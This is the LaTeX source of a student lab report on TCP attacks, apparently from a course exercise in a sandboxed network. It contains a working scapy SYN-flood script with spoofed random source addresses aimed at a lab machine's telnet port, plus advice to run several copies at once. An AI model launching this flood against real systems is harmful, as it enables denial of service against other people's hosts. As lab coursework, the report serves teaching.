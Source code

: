 \documentclass[12pt]{article}
\newcommand{\PLtitle}{\setlength{\parindent}{0pt}
\begin{center}

  \huge{\textbf{Homework \Lab: \Ltitle\\}}
  \normalsize 

  CSE 3063 \\
  Date: \date\\
  Name: \author\\
  


\end{center}
}
\def\Lab{4}
\def\Ltitle{TCP Attacks}
\def\author{Kassidy Maberry}
\def\date{2025/04/14}
\begin{document}
\PLtitle

\section*{Task 1}

\subsection*{Task 1.1}
For this task we will need to determine first what port to connect to thus we will perform the following command.\\

\begin{figure}[!ht]
  \includegraphics*{Task1getPort.png}
\end{figure}

We will be connecting with port 23, we know that our victum machine can be connected with the ip address 10.9.0.5. We will need 
to modify our sript in order to perform the attack on the machine. Making the modfications we will have the following script. 
This can be viewed in the file syn.py.\\

\begin{lstlisting}
  #!/bin/env python3
  from scapy.all import IP, TCP, send
  from ipaddress import IPv4Address
  from random import getrandbits
  ip = IP(dst="10.9.0.5")
  tcp = TCP(dport=23, flags="S")
  pkt = ip/tcp
  while True:
      pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
      pkt[TCP].sport = getrandbits(16) # source port
      pkt[TCP].seq = getrandbits(32) # sequence number
      send(pkt, verbose = 0)
\end{lstlisting}

Now we can perform our attack.

\begin{figure}[!ht]
  \includegraphics*{Task1.1InitalAttack.png}
\end{figure}

However we were able to establish a connection since when we reach the log in portion 
the connection has been established. This is because python executes very slowly and thus 
we need more instances running. Cancelling the process and waiting for the connection to time out 
we can repeat, for this we will run 5 scripts performing the attack.
\end{document}
